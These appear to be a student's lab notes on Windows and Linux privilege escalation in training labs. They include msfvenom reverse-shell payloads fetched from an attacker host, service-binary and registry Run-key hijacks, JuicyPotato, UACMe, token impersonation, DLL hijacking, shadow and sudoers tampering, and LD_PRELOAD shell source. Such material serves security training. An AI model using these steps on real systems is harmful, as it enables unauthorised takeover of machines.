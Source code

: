 Privilege Escelation with Powerup

we had access to a kali linux attacker and a windows target machine, we had assumed access of the windows system but used a hta to get a meterpreter session open up with full admin privelages, we basically escelated our privelages and the video shown us 2 ways of doing this, hta and psexec


Privilege Escelation with PrivescCheck

we had access to a kali linux attacker and a windows target machine, we had assumed access of the windows system but used PrivescCheck to to obtain a PrivescCheck Report which shown us vulnerabilities - in this case clear text logon info WinLogon, we found the results that obtained the credentials. again its the same lab, we could use hta, or any way of gaining a meterpreter shell at this point

Unattended Installation

identify the presence of the unattended installation file using PowerUp, from there we cat out the contents, attain the password which we then put on the attackers machine using > echo  "QWRtaW5AMTIz" | base64 -d
which revealed the password: Admin@123
we then logged on the target machine through powershell using runas.exe; 
PS C:\Users\student\Desktop\PowerSploit\Privesc> runas.exe /user:administrator cmd
Enter the password for administrator:
which then gave us escelated privileges
also using cpsexec on msfconsole - using the credentials for a meterpreter session

Windows Credential Manager

with student user we use cmdkey /list and the stored credentials do not show, however we can use runas.exe /savecred /user:administrator cmd - this will login as admin using the credentials even though we cant see them.
- also shown how to use msfvenom, then msfconsole to do webdelivery, creating a command to run on the targets student powershell which opens up a meterpreter sessions.

PowerShell History

C:\Users\student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
this is a file that stores a list of commands that have previously been entered by last users of computer

- Service Exploits

Exploiting Insecure Service Permissions

In this privilege escalation exercise, we begin as a low-privileged student user with access to the PowerSploit framework and the PowerUp.ps1 script, designed to identify common Windows misconfigurations. First, we navigate to the script's directory using cd .\Desktop\PowerSploit\Privesc\ and list the contents with ls. We then launch PowerShell with execution policy bypass using powershell -ep bypass, import the script via . .\PowerUp.ps1, and run the Invoke-PrivescAudit function. This reveals that the student user has modify permissions on FileZilla Server.exe, a potential privilege escalation vector. We confirm this using Get-Acl "C:\Program Files (x86)\FileZilla Server" | Format-List, which shows write access to the FileZilla installation directory.
Next, on the Kali attacker machine, we identify our IP with ip addr and generate a malicious payload using msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP> LPORT=4444 -f exe > 'FileZilla Server.exe', ensuring the file is not empty with file 'FileZilla Server.exe'. We serve the payload using a Python HTTP server (python -m SimpleHTTPServer 80) and prepare for the reverse connection by starting msfconsole, using the exploit/multi/handler module, and setting PAYLOAD, LHOST, LPORT, and InitialAutoRunScript post/windows/manage/migrate, followed by exploit.
Back on the Windows machine, we download the malicious payload and overwrite the legitimate binary using:
iwr -UseBasicParsing -Uri 'http://<Kali IP>/FileZilla Server.exe' -OutFile 'C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe', then verify with ls. We then launch services.msc, locate the "FileZilla Server FTP Server" service, and click "Start". The service fails to start with Error 1053, which is expected—it indicates our payload executed. Meanwhile, on Kali, we receive a Meterpreter session as SYSTEM. We navigate to the Administrator’s Downloads folder (cd C:\Users\Administrator\Downloads), list files (ls), and read the flag using cat flag.txt.
This method demonstrates a typical Windows privilege escalation path via service binary replacement, using PowerUp, msfvenom, and Metasploit.

- Windows Registry

Privilege Escalation via Registry AutoRuns

Start by launching Autoruns.exe from C:\Users\student\Desktop\SysinternalsSuite\Autoruns.exe, switch to the Logon tab, and confirm hfs.exe is set to auto-run. Use Get-ACL 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' | Format-List to verify the student user has write permissions to the Run registry key. Check if you can overwrite the hfs.exe binary with Get-ACL "C:\Program Files\HTTPServer\" | Format-List—if not, proceed with registry-based persistence. Open regedit, go to HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run, create a new String Value named hacker, and set its value to C:\Users\student\Desktop\tool\program.exe. Then, create the folder using mkdir C:\Users\student\Desktop\tool. On Kali, generate a Meterpreter payload with msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.31.2 LPORT=4444 -f exe > program.exe, serve it via python -m SimpleHTTPServer 80, and start a listener in Metasploit with the exploit/multi/handler module using the same LHOST and LPORT. On the target, download the payload using iwr -UseBasicParsing -Uri http://10.10.31.2/program.exe -OutFile 'C:\Users\student\Desktop\tool\program.exe'. Double-click the hacker registry key and confirm the value points to the downloaded payload. To trigger execution, run shutdown /l to log off, then reconnect. The payload runs on login, and you get a Meterpreter session on Kali. Finally, navigate to C:\Users\Administrator\Downloads

- Impersonation Attacks

Access Token Impersonation

access token impersonation, first gain a Meterpreter session on a Windows machine. Use getprivs to confirm you have the SeImpersonatePrivilege. Then, run load incognito and list available tokens with list_tokens -u. Find a suitable impersonation token (e.g., for Administrator), then run impersonate_token <DOMAIN\\User>. After impersonation, verify with getuid—you should now be running as the target user. You can now perform actions with that user’s privileges.

MSSQL: Juicy Potato: Privilege Escalation

To escalate privileges with Juicy Potato, I first confirmed the presence of the SeAssignPrimaryTokenPrivilege using whoami /priv. Then, I generated a malicious Meterpreter executable (backdoor.exe) using msfvenom and uploaded it alongside JuicyPotato.exe to the C:\Users\Public\ directory on the target. I launched a Metasploit multi/handler to catch the reverse shell, and from the Meterpreter session, I executed:
JuicyPotato.exe -l 4444 -p C:\Users\Public\backdoor.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
This exploited a vulnerable CLSID to impersonate SYSTEM, launching my backdoor payload and granting SYSTEM-level access via a new Meterpreter session.

- Advanced Techniques

Bypassing UAC with UACMe

To elevate privileges using UACMe, first download and extract the tool on your attacker machine, then upload it to a writable location on the target system. Identify the correct method number for the UAC bypass (such as 62 for fodhelper.exe) by referencing UACMe’s documentation. Prepare your payload, such as a reverse shell or cmd.exe, and ensure it matches any naming requirements for the chosen method. Then, from a low-privileged command prompt on the target, execute the UACMe binary with the appropriate method and payload path (e.g., akagi64.exe 62 C:\Users\Public\payload.exe). If the system is vulnerable and UAC auto-elevation is enabled, the payload will be executed with elevated privileges, giving you administrative or SYSTEM-level access without triggering a UAC prompt.

DLL Hijacking

To perform DLL hijacking, start by running the target application and monitor it with Process Monitor (ProcMon) using the filter: Path contains .dll and Result is NAME NOT FOUND. This helps identify missing DLLs the app attempts to load. Once a vulnerable DLL name is found (e.g., example.dll), use a tool like Dependency Walker to check for required exports. Write a malicious DLL in a language like C or C++, exporting the same functions (e.g., DllMain) and embedding your payload (such as a reverse shell or MessageBox). Compile it (e.g., using x86_64-w64-mingw32-gcc) and name it identically: example.dll. Place it in the same directory as the executable (or a writable path loaded first), then run the app:
x86_64-w64-mingw32-gcc -shared -o example.dll malicious.c  
When executed, the application loads your DLL, triggering your payload with its privileges.

- Linux Privilege Escalation

Locally Stored Credentials

On Student login, navigate to the HTML root folder: cd /var/www/html - here we can search for credentials by trying various keywords such as username, password, db_username, db_password, db_user, etc. In this case, db_user worked: grep -nr "db_user" - Cat the required file to find the password for the root user: cat ./local/config/database.inc.php - then type su, enter the password and we are complete.

Misconfigured File Permissions

in the student machine, we can input the following command to look for files (and not symlinks etc) that are writable: find / -not -type l -perm -o+w - We oserve from the result that /etc/shadow is world writable: ls -l /etc/shadow - cat /etc/shadow - We observe that the root password is not set. Adding a known password in the shadow file can escalate to root. Use openssl to generate a password entry: openssl passwd -1 -salt abc password - Copy the generated entry and add it to the root record in /etc/shadow Command: vim /etc/shadow - After making the changes, try to switch to the root user: su - Enter password: password - we are in

Exploiting SUID Binaries

The challenge description points us toward the setuid programs. So, search for all setuid programs: find / -user root -perm -4000 -exec ls -ldb {} \; - We observe that in addition to default programs, setuid bit is set for vim.tiny (a lightweight text editor). Leverage this and use the vim.tiny to modify /etc/sudoers file: vim.tiny /etc/sudoers - Add a new entry for student user which will allow it to use sudo without prompting for password. under # sudoers include, Press i to insert and then add: student ALL=(ALL) NOPASSWD:ALL - After saving the /etc/sudoers file, run /bin/bash as root using sudo: sudo /bin/bash - and we are in.

 Misconfigured SUDO Privileges
 
The video explains how we can check online for misconfigured Sudo Privileges when we discover them. To check the current sudo capabilities: sudo -l - The man entry depicts that the man command can be run using sudo without providing any password. Run it and launch /bin/bash from it: sudo man ls - Command: !/bin/bash - We observe that the escalation to root user is successful. Change to /root directory and retrieve the flag.

Shared Library Injection

Start with checking sudo configuration. Observe that the student user can run apache2 with sudo (as root) without providing any password. Also, LD_PRELOAD environment variable can be set: sudo -l - Create a file (shell.c) with the code:

cat <<EOF > shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
EOF

This code will lead to an elevated shell on execution. Compile the code to create a shared library named shell.so. : gcc -fPIC -shared -o shell.so shell.c -nostartfiles - Once the shell.so is ready, use sudo to change value of LD_PRELOAD variable to path of shell.so and also call the apache2 program. This will lead into execution of the code written in _init() function of the shell.so and launch an elevated shell: sudo LD_PRELOAD=/home/student/shell.so apache2 - and we are in

